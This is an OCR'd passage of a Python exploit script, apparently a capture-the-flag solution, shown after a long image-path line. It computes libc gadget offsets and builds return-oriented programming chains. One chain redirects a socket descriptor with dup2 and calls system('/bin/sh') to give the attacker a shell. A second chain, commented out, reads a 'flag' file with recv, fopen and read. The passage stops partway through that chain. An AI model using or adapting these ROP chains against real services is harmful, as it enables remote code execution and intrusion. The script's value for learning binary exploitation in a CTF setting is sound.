     pop_rsi = libc_base+0x202e8 # pop rsi ; ret
    pop_rdx = libc_base+0x1b92  # pop rdx ; ret
    pop_rcx = libc_base+0xfc3e2 # pop rcx ; ret
    dup2    = libc_base+0xf6d90
    system  = libc_base+0x45390
    binsh   = libc_base+0x18c177
    recv_l  = libc_base+0x107650
    fopen_l = libc_base+0x6dd70
    read_l  = libc_base+0xf6670
    send_l  = libc_base+0x1077d0


    ## DUP2()
    # dup2(4,1); dup2(4,0)
    name  = p64(pop_rdi)
    name += p64(0x4)
    name += p64(pop_rsi)
    name += p64(0x0)
    name += p64(dup2)
    name += p64(pop_rdi)
    name += p64(0x4)
    name += p64(pop_rsi)
    name += p64(0x1)
    name += p64(dup2)
    name += p64(pop_rdi)
    name += p64(binsh)
    name += p64(system)

    '''
    ## CAT FLAG
    # recv(0x4,0x6020e0, 0x20, 0x0) # 0x6020e0 = .data section
    name  = p64(pop_rdi)
    name += p64(0x4)
    name += p64(pop_rsi)
    name += p64(0x6020e0)
    name += p64(pop_rdx)
    name += p64(0x20)
    name += p64(pop_rcx)
    name += p64(0)
    name += p64(recv_l)

    # fopen("flag", "r")
    name += p64(pop_rdi)
    name += p64(0x6020e0)
    name += p64(pop_rsi)
    name += p64(0x6020ea)
    name += p64(fopen_l)

    ## read(3,0x6020e0,50)
    name += p64(pop_rdi)
    name += p64(0x3)
    name += p64(pop_rsi)
    name += p64(0x6020e0)
    name += p64(pop_rdx)
    name += p64(50)
    name += p64(read_l)
